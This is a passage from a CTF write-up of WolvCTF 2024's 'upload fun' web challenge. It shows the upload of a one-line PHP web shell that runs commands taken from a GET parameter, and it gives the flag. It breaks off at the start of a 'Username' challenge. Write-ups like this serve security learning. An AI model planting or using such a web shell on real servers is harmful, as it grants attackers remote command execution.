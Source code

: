 ![upload-fun5.png](/assets/posts/wolvctf2024/upload-fun5.png)
![upload-fun6.png](/assets/posts/wolvctf2024/upload-fun6.png)
Yes we can 



We can now proceed and craft  a parameter to execute our commands and upload it to our server 

```<?php system($_GET["some"]); ?>```
![upload-fun4.png](/assets/posts/wolvctf2024/upload-fun4.png)


Making a request to the server through our some parameter
![upload-fun3.png](/assets/posts/wolvctf2024/upload-fun3.png)
Flag: `wctf{h0w_d1d_y0u_gu355_th3_f1l3n4me?_7523015134}`




## WEB:  Username
  

When you go to the challenge page, you are prompted to register your username

  

Here is the source:

  
```